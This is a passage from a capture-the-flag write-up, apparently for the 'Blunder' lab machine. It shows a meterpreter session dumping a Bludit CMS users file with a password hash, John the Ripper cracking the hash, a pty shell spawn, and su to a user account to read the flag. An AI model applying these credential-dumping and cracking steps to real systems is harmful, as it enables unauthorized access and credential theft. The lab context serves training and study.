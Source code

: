     meterpreter > cat databases/users.php
    <?php defined('BLUDIT') or die('Bludit CMS.'); ?>
    {
        "admin": {
            "nickname": "Hugo",
            "firstName": "Hugo",
            "lastName": "",
            "role": "User",
            "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
            "email": "",
            "registered": "2019-11-27 07:40:55",
            "tokenRemember": "",
            "tokenAuth": "b380cb62057e9da47afce66b4615107d",
            "tokenAuthTTL": "2009-03-15 14:00",
            "twitter": "",
            "facebook": "",
            "instagram": "",
            "codepen": "",
            "linkedin": "",
            "github": "",
            "gitlab": ""}
    }

We put the hash in a local file and run john the ripper on it with the `rockyou`
dictionary. The come up empty. So we had the `--rules` option to add a few rules
to our dictionary. The password `Password120` is quickly found.

    :::text
    $john haash -w=tools/password_lists/rockyou.txt --rules
    Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
    Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
    Warning: no OpenMP support for this hash type, consider --fork=8
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Password120      (hugo)

We can now us `su` to switch user to `hugo` and get the user flag but first of all we need an
interactive shell.

    :::text
    python3 -c 'import pty; pty.spawn("/bin/sh")'
    $ su hugo
    su hugo
    Password: Password120

    id
    hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ id
    uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
    hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cd
    cd
    hugo@blunder:~$ cat user.txt
    cat user.txt
    2fc521288709e7da0e7119128831b13c

# Root
